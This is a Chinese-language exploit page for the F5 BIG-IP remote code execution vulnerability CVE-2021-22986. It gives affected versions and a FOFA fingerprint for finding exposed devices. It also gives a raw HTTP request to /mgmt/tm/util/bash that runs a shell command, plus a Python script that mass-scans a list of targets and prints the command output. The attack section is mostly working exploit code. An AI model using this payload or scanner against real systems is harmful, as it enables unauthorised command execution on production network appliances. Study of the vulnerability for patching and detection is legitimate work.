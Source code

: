 # F5 BIG-IP 远程代码执行漏洞 CVE-2021-22986

## 漏洞描述

F5 BIG-IP 是美国 F5 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。

近日，F5发布了F5 BIG-IQ/F5 BIG-IP 代码执行，代码执行的风险声明，F5安全公告更新了BIG-IP，BIG-IQ中的多个严重漏洞。建议广大用户及时将f5 big-iq,f5 big-ip升级到最新版本，避免遭到攻击。

## 漏洞影响

> [!NOTE]
>
> F5 BIG-IP 16.x: 16.1.0.3
>
> F5 BIG-IP 15.x: 15.1.0.4
>
> F5 BIG-IP 14.x: 14.1.2.6
>
> F5 BIG-IP 13.x: 13.1.3.4
>
> F5 BIG-IP 12.x: 12.1.5.2
>
> F5 BIG-IP 11.x: 11.6.5.2

##  FOFA

> [!NOTE]
>
> icon_hash="-335242539" 

## 漏洞复现

访问登录页面如下

![](image/f5-6.png)

发送请求包

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: xxx.xxx.xxx.xxx:8443
Connection: close
Content-Length: 41
Cache-Control: max-age=0
Authorization: Basic YWRtaW46QVNhc1M=
X-F5-Auth-Token: 
Upgrade-Insecure-Requests: 1
Content-Type: application/json

{"command":"run","utilCmdArgs":"-c id"}
```

![](image/f5-7.png)

成功执行命令 id

## 漏洞利用POC

```python
import requests
import sys
import random
import re
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: F5 BIG-IP                                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/mgmt/tm/util/bash"
    headers = {
        "Authorization": "Basic YWRtaW46QVNhc1M=",
        "X-F5-Auth-Token": "",
        "Content-Type": "application/json"
    }
    data = '{"command":"run","utilCmdArgs":"-c id"}'
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=2)
        if "commandResult" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞,响应为:{} \033[0m".format(target_url, json.loads(response.text)["commandResult"]))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "https://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```

![](image/f5-8.png)